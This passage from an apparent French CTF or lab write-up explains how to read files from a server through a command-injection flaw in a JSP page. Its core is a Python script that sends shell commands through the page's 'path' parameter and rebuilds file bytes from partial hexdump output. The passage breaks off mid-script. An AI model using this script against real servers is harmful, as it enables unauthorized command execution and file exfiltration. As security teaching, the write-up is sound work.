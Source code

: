 La première colonne représente l'offset des données dans le fichier. Les autres colonnes sont deux octets sous forme hexadécimale.  

Comme on l'a vu précédemment, seules certaines colonnes sont affichées par le script, on aurait donc alors quelque chose comme cela :  

```plain
X 1  [2]  [3]  [4]  5  6  7  [8]
X 9  [10] [11] [12] 13 14 15 [16]
X 17 [18] [19] [20] 21 22 23 [24]
X 25 [26] [27] [28] 29 30 31 [32]
```

Avec entre crochets les octets récupérables.  

Moyennant un autre hexdump avec un décalage (option -s) on peut compléter :  

```plain
X 4  [5]  [6]  [7]  8  9  10 [11]
X 12 [13] [14] [15] 16 17 18 [19]
X 20 [21] [22] [23] 24 25 26 [27]
```

On s’aperçoit tout de même qu'il faut un appel à hexdump de plus pour obtenir une colonne (les index 9, 17, 25, etc).  

J'ai écrit un script baptisé *dump\_file.py* permettant de reconstruire un fichier texte via les trois appels à hexdump appelés depuis *test.jsp* :  

```python
import sys
from urllib.parse import quote
from binascii import unhexlify
from subprocess import check_output, getoutput

import requests
from bs4 import BeautifulSoup

URL = "http://192.168.1.10:8080/test.jsp?path={}"
filename = sys.argv[1]

def exec(cmd):
    url = URL.format(quote(cmd))
    response = requests.get(url)
    soup = BeautifulSoup(response.text, "lxml")
    infos = []
    for i, row in enumerate(soup.select_one("table:nth-of-type(2)").find_all("tr")):
        if i == 0:
            continue
        columns = []
        for column in row.find_all("td"):
            columns.append(column.text.strip())

        infos.append(columns)
    return infos

def get_size(filename):
    return int(exec("ls -l {}".format(filename))[0][2])

def reconstruct(dest, hexdump1, hexdump2, hexdump3):
    dest[0] = ord('?')
    dest[1] = ord('?')
    for i, row in enumerate(hexdump1):
        for j, column in enumerate(row):
            if j in (0, 1, 2):
                index = i*16 + j*2 + 2
                dest[index] = int(column[2:], 16)
                dest[index+1] = int(column[:2], 16)
```